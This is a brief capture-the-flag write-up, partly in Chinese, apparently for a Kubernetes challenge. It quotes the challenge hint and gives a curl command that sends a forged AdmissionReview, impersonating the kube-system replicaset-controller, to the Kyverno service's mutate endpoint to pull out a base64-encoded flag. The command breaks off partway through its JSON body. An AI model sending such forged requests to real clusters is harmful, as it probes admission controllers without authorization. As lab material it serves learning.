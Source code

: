 hint  
```
https://github.com/anderseknert/kube-review


This exercise consists of three ingredients: kyverno's hostname (which can be found via dnscan), the relevant HTTP path (which can be found in Kyverno's source code) and the AdmissionsReview request.
```

需要使用https进行访问，返回包提取字符串，base64解码。原理部分，可以参考其他writeup。
```
curl -k -X POST \
  https://kyverno-svc.kyverno.svc.cluster.local/mutate \
  -H 'Content-Type: application/json' \
  -d '{
  "apiVersion": "admission.k8s.io/v1",
  "kind": "AdmissionReview",
  "request": {
    "uid": "705ab4f5-6393-11e9-b132-0a580a2c0d25",
    "kind": {
      "group": "",
      "version": "v1",
      "kind": "Pod"
    },
    "resource": {
      "group": "",
      "version": "v1",
      "resource": "pods"
    },
    "requestKind": {
      "group": "",
      "version": "v1",
      "kind": "Pod"
    },
    "requestResource": {
      "group": "",
      "version": "v1",
      "resource": "pods"
    },
    "namespace": "sensitive-ns",
    "operation": "CREATE",
    "userInfo": {
      "username": "system:serviceaccount:kube-system:replicaset-controller",
      "uid": "b7956f2e-6393-11e9-b132-0a580a2c0d25",
      "groups": [
        "system:serviceaccounts",
        "system:serviceaccounts:kube-system",
        "system:authenticated"
      ]
    },
    "object": {
      "apiVersion": "v1",
      "kind": "Pod",
      "metadata": {
        "name": "example-pod",
        "namespace": "sensitive-ns",
        "labels": {
          "app": "example"
        }
      },
      "spec": {
        "containers": [
          {
            "name": "example-container",
            "image": "nginx:latest",
```